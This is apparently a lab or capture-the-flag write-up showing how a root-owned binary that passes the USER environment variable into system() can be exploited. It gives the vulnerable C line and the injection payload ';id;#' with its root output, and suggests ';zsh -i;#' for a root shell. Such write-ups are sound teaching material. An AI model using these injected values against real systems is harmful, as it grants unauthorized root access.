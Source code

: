 `main` file has ownership of root so if we could get to run command injection from `main` file we will be running our command as root.

```bash
❯ ./main                           
about to call system("/bin/echo at0m is cool")
at0m is cool
```

As we can see it just run system function to print our username. We want to run our command instead of system command.

```c
asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
```

In above line of code we can see it dynamically creates a string in `buffer` that runs `/bin/echo <username> is cool` using the current user’s name from the environment.

So the only way we can change anything is from `USER` variable we can change it by running `export USER=hacker` in our Linux machine. Now if we run it will say:

```bash
❯ ./main
about to call system("/bin/echo hacker is cool")
hacker is cool
```

We know in Linux we can use `;` to run multiple commands like:

```bash
❯ id;ls   
uid=1000(at0m) gid=1000(at0m) groups=1000(at0m),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),105(lpadmin),125(sambashare),128(docker)
main  main.c
```

It ran `id` then after this it ran `ls` command. So if we could put `;` in our `USER` variable like `';id;#'` it will run this command as `root`.

We used `;` to separate commands, so by setting `USER` to something like `';id;#'`, the injected command becomes:

```bash
/bin/echo ';id;# is cool'
```

We used `#` as it is used to comment out the rest.

```bash
❯ export USER=';id;#'

❯ ./main             
about to call system("/bin/echo ;id;# is cool")

uid=0(root) gid=1000(at0m) groups=1000(at0m),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),100(users),105(lpadmin),125(sambashare),128(docker)
```

Like this we can run our command as root. If we want shell we can use this `';zsh -i;#'`

